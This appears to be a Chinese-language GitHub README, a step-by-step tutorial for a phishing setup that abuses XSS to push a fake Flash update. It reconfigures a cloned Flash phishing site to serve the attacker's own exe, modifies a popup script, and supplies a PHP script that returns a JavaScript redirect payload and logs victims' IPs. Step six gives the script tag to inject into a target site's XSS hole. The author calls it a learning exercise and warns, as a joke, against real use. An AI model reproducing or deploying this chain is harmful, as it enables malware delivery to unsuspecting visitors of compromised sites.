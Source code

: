 # 原版的无法实现自动收杆的效果，就简单改了一下

**好了，正文开始**

需要准备好的东西：域名、一台服务器、弹窗源码、鱼站源码以及做好的exe文件

## 第一步：在服务器上已经配置好NGINX+PHP的环境

省略步骤......


## 第二步：上传鱼站和制作好的exe文件
随便找个鱼站放上去

这里我使用的是x0rz4师傅开源的代码：`https://github.com/x0rz4/Flash_fishing`
然后打开index.html 将所有包含`www.flash.cn`的外链都删了(因为懒)，这样随便点也不会跳转到官方网站了(随意,你想怎么改都行)

最关键的是如何让下载的文件是你制作的, 就是后面的步骤了
修改`/config/flashVersion`这个文件基本上所有下载地址都在这里了，建议全部换成你的域名


创建一个目录`/cdm/latest/`, 这个路径是上面flashVersion中写的路径，用来防止exe文件

## 第三步：上传xss.html弹窗调用页面
主要用于后面的xss
```
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <script src='./flash.js'></script>
    </head>
    <body>
    </body>
</html>
```
## 第四步：上传弹窗代码

可以看到上面调用了 `flash.js`,我使用的是r00tSe7en师傅的开源弹窗代码：`https://github.com/r00tSe7en/Flash-Pop` , 因此在你上传这个flash.js

接着修改这个JS，搜索`onclick=window.location.href='https://www.se7ensec.cn/'>`  全JS代码只有这么一个

把这个域名更换成鱼站的地址127.0.0.1

## 第五步：上传收杆检测代码

xss1.php
```
<!-- xss.php的改版 -->
<?php
$xssPayload =  "window.location.href=\"https://127.0.0.1/xss.html\";";
$db = "botIPs.txt";

$ip = $_SERVER["HTTP_X_FORWARDED_FOR"];
$botIP = @$_GET['ip'];

/**
1、获取IP
2、判断是否存在对应文件
3、读取里面的内容
*/
// var_dump($_REQUEST);
// var_dump($_SERVER);
if(! $_REQUEST['ip']){
    $ip_content = file_get_contents($db);
    $ip_array = explode(PHP_EOL,$ip_content);
    if(! in_array(base64_encode($ip),$ip_array)){
		header('Content-type: text/javascript');
		echo $xssPayload;
    }
}else{
    if (!is_null($botIP)){
    	file_put_contents($db,base64_encode($botIP).PHP_EOL,FILE_APPEND);
    }
}
?>
```

## 第六步：插入目标

在目标xss漏洞存在的地方插入`<script type="text/javascript" src="https://127.0.0.1/xss.php"></script>`

**姜太公钓鱼，愿者上钩**

# 总结

当所有的东西都配置完成后，你会发现毫无卵用，只要不是傻子一看就能看出来。

那为什么还要写呢? 纯属学习娱乐，原作者的自动收杆没整明白哪一步出了问题导致没复现出来，所以取个巧体验体验自动收杆的感觉。

因此切莫用于实战，否则你将每天过着规律的生活作息，吃着丰盛的美食以及做着充足的劳动。
所谓在规律中改造，秩序中生活，在潜移默化中重塑自我，在积极改造的路上奔向新生，迎接希望！！！
